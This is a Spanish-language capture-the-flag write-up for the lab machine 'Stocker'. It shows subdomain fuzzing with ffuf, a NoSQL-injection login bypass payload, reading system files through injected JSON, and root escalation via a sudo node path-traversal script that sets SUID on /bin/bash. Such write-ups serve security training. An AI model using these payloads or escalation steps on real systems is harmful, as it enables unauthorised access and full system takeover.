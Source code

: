 # StockerWriteup

Realizamos un escaneo con nmap

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/bb037a3a-e082-4eed-b41c-837dcb4342b1)

Vemos que esta abierto el puerto 80 y el 22, así que visitamos la página web, al entrar se autodirecciona a "stocker.htb", por lo que agregamos esto a /etc/hosts

Entramos y la página web no tiene nada, analizamos todo y parece segura, pero falta algo, como nos redireccionó, puede haber más subdominios escondidos así que usamos ffuf

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/ec64b229-6b35-4126-a60f-11460dfc758f)

~~~
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://stocker.htb -H 'Host: FUZZ.stocker.htb' -mc 200,201,302
~~~

Entramos a página "dev.stocker.htb"

Vemos un login

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/3879e8a6-8bd7-4a91-8998-f43add109e9b)

Calamos son SQLinjection y vemos que no funciona, calamos con noSQL

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/cb650dab-77cb-48b5-8f34-6e1c210ffcf8)

Cambiamos el formato a json y ponemos la inyección en json

~~~
{"username": {"$ne": null}, "password": {"$ne": null}}
~~~

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/81596dfb-faeb-449c-8b7c-f959ad43bdc6)

Y funciona, ahora vemos que hay una serie de productos, agregamos al carro y subimos la peticion

Si injecto texto en el json se queda

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/f409a052-eefa-46bc-9446-e2e98b341342)

Inyectamos para que nos de el etc passw

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/c6ecbefd-47cc-4818-bba0-c8361b58e035)

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/2052b50d-5a9d-462b-91d3-bda194032c1d)

Sabemos que hay un user angoose

ahora podemos ver las files que hay en /var/www/dev a ver si hay algo sobre como revisa los logins

Vemos /var/www/dev/index.js y sale

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/ffbbc9ba-4003-4660-93bc-024dad308e31)

Encontramos la contraseña del user

Entramos por ssh y tenemos la flag

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/585d3283-4943-459b-b4a0-53ec234c8dd7)

Ahora para el root damos sudo -l

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/147f198f-faef-46f9-a71e-83693257793e)

Se puede ver que el usuario puede ejecutar sudo con node en la carpeta indicada para cualquier archivo js, sin importar lo que siga por la comilla

Ahora con esto creamos un script para que nos regrese una terminal con root

~~~
const { exec } = require("child_process");

exec("chmod u+s /bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
~~~

Ahora lo ejecutamos

~~~
sudo node /usr/local/scripts/../../../home/angoose/exploit.js 
~~~

Y con esto tenemos root

![imagen](https://github.com/Hamibubu/StockerWriteup/assets/108554878/3564b50d-f820-440e-8b72-60930e438519)

Listo!
